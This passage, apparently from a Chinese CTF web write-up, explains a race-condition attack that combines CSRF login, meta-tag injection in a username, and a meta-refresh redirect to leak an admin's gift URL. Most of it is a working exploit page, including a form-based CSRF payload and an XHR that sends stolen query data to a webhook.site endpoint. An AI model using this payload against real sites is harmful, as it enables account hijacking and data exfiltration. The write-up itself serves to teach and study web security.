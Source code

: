 从图中加载的顺序也可以看到, 这两个请求之间必定会存在一定的网络延迟

所以我们可以用这么一种条件竞争的思路: 先在后端处理 `/create/xx` 路由的时候维持住 admin 的 token, 然后 render 渲染 html 返回, html 中加载了 populate.js, 然后发起 ajax 请求访问 `/api/info`, 在这时候进行条件竞争, 使得 token 更改为我们自定义的用户 (username 处注入了 meta 标签), 这样 js 接收到的就是包含 meta 标签的 username, 然后将数据渲染到 html 中, 浏览器就会发起 meta 跳转, 最后携带的反而是 admin 的 gift 地址

所以可以得到如下的 exp

```html
<form id="csrf" action="http://192.168.100.1:30000/api/login" method="POST" enctype="text/plain">
    <input name="json" value='"}' />
</form>

<script>
    function login(url) {
        url.searchParams.append('leak', '1')
        var payload = '<base href="https://example.com/"><meta http-equiv="refresh" content="0; url=URL">'.replace('URL">', url.toString())
        var data = JSON.stringify({
            'name': payload
        })
        data = data.substring(0, data.length - 2)
        var csrf = document.getElementById('csrf')
        csrf.firstElementChild.name = data
        csrf.submit()
    }
    
    function race() {
        window.open("http://192.168.100.1:30000/create/Infinity");
        window.open("http://192.168.100.1:30000/create/Infinity");
        window.open("http://192.168.100.1:30000/create/Infinity");
        window.open("http://192.168.100.1:30000/create/Infinity");
        window.open("http://192.168.100.1:30000/create/Infinity");
        window.open("http://192.168.100.1:30000/create/Infinity");
        window.open("http://192.168.100.1:30000/create/Infinity");
        window.open(location.href + '?login=1');
        window.open("http://192.168.100.1:30000/create/Infinity");
        window.open("http://192.168.100.1:30000/create/Infinity");
    }

    function send(data) {
        xhr = new XMLHttpRequest()
        xhr.open('POST', 'https://webhook.site/6362957d-cd07-41da-b692-9f53e6a644fd')
        xhr.send(data)
    }
    
    var url = new URL(location.href)
    if (url.searchParams.has('leak')) {
        send(location.search)
    } else if (url.searchParams.has('login')) {
        login(url)
    } else {
        race()
    }
</script>
```
